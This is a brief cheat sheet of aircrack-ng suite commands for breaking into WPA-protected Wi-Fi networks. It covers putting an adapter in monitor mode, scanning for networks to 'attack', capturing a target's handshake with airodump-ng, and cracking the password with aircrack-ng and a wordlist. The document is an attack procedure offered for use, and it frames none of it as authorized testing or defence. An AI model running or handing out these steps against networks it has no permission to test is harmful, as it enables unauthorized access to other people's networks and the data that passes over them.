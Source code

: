 # lists the network adaptors available and their properties. Note the name of your network adaptor that support monitoring, e.g., wlan1:
 iwconfig
# Change adaptor into monitor mode:
 airmon-ng start wlan1
# See the new adaptor:
 iwconfig
# Search for all wifi available for you to attack and mark the channel and mac address of the wifi you want to attack:
airodump-ng wlan1mon 
# Capture wpa handshake: (EAPOL)
 airodump-ng -c <channel-no> -w <name-of-output-file> -d <mac-address> wlan1mon : 
# Crack the password:
 aircrack-ng output-above.cap -w wordlist.txt
